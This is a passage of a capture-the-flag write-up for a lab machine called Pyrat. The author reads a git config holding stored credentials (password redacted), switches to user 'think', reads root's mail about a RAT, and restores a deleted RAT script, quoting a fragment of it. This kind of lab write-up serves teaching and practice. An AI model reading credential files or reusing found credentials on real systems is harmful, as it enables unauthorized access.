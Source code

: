 In `/opt/dev/.git/config` I find hardcoded credentials for the user `think`:
```shell
www-data@ip-10-10-154-107:/opt/dev/.git$ cat config  
[core]  
       repositoryformatversion = 0  
       filemode = true  
       bare = false  
       logallrefupdates = true  
[user]  
       name = Jose Mario  
       email = josemlwdf@github.com  
  
[credential]  
       helper = cache --timeout=3600  
  
[credential "https://github.com"]  
       username = think  
       password = redacted
```
`think:redacted`. Run `su think` and become this user.

I find `/var/mail/think` which contains an interesting message:
```shell
think@ip-10-10-154-107:/tmp$ cat /var/mail/think     
From root@pyrat  Thu Jun 15 09:08:55 2023  
Return-Path: <root@pyrat>  
X-Original-To: think@pyrat  
Delivered-To: think@pyrat  
Received: by pyrat.localdomain (Postfix, from userid 0)  
       id 2E4312141; Thu, 15 Jun 2023 09:08:55 +0000 (UTC)  
Subject: Hello  
To: <think@pyrat>  
X-Mailer: mail (GNU Mailutils 3.7)  
Message-Id: <20230615090855.2E4312141@pyrat.localdomain>  
Date: Thu, 15 Jun 2023 09:08:55 +0000 (UTC)  
From: Dbile Admen <root@pyrat>  
  
Hello jose, I wanted to tell you that i have installed the RAT you posted on your GitHub page, i'll test it tonight so don't be scared if you see it running. Regards, Dbile Admen
```

In `/opt/dev` I run `git status` and see a deleted file. I restore it:
```shell
think@ip-10-10-154-107:/opt/dev$ git status  
On branch master  
Changes not staged for commit:  
 (use "git add/rm <file>..." to update what will be committed)  
 (use "git restore <file>..." to discard changes in working directory)  
 deleted:    pyrat.py.old  
  
no changes added to commit (use "git add" and/or "git commit -a")  
think@ip-10-10-154-107:/opt/dev$ git restore pyrat.py.old  
think@ip-10-10-154-107:/opt/dev$ ls  
pyrat.py.old  
think@ip-10-10-154-107:/opt/dev$ cat pyrat.py.old  
...............................................  
  
def switch_case(client_socket, data):  
   if data == 'some_endpoint':  
       get_this_enpoint(client_socket)  
   else:  
       # Check socket is admin and downgrade if is not aprooved  
       uid = os.getuid()  
       if (uid == 0):  
           change_uid()  
```